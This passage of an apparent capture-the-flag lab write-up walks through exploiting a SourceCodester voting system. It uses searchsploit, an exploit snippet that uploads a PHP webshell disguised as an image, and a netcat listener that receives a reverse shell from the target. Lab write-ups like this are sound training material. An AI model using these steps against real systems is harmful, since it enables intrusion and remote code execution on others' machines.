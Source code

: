 We got the admin directory, let’s access it and login.

![Screen Shot 2021-05-02 at 11.24.00.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/55E4CDAA-A4A4-480B-9159-194BA319A3F2/D650B947-A95E-4384-B01C-6A41F9D097D6_2/Screen%20Shot%202021-05-02%20at%2011.24.00.png)

We got access to admin dashboard. This looks like AdminLTE template, I know this because I am heavy use of PiHole and it has exact same dashboard.

![Screen Shot 2021-05-02 at 11.24.32.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/55E4CDAA-A4A4-480B-9159-194BA319A3F2/55482331-D91A-4D34-BEA1-7F080C1460A9_2/Screen%20Shot%202021-05-02%20at%2011.24.32.png)

The copyright year is 2018, that means probably vulnerable and it is copyrighted to ‘SourceCodester’. This site provides free source code to programmers that can be used in their applications. Let’s find vulnerability using searchsploit.

```
⛩\> searchsploit "voting system"
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
Online Voting System - Authentication Bypass                                         | php/webapps/43967.py
Online Voting System Project in PHP - 'username' Persistent Cross-Site Scripting     | multiple/webapps/49159.txt
Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)            | php/webapps/49445.py
------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We got three possibly exploits, the first two can’t useful in our situation as we already have access to admin account. Hopefully the third will help us. A file upload vulnerability which can perform remote code execution, but we need to find what part of this dashboard/settings is vulnerable for this.

After reading the code, I believe picture/photo upload section is vulnerable to RCE.

```
def sendPayload():
    if login():
        global payload
        payload = bytes(payload, encoding="UTF-8")
        files  = {'photo':('shell.php',payload,
                    'image/png', {'Content-Disposition': 'form-data'}
```

So, let’s try to upload a profile picture of current user with PHP webshell.

![Screen Shot 2021-05-02 at 11.49.03.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/55E4CDAA-A4A4-480B-9159-194BA319A3F2/8BD921C1-02AC-4EC2-8F6A-F4FA402CDC38_2/Screen%20Shot%202021-05-02%20at%2011.49.03.png)

Before you click on save, make sure to setup a netcat listener. Once you hit save you’d receive a reverse connection.

```
⛩\> nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.36] from (UNKNOWN) [10.129.145.79] 59811
SOCKET: Shell has connected! PID: 6948
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\>whoami
love\phoebe
```
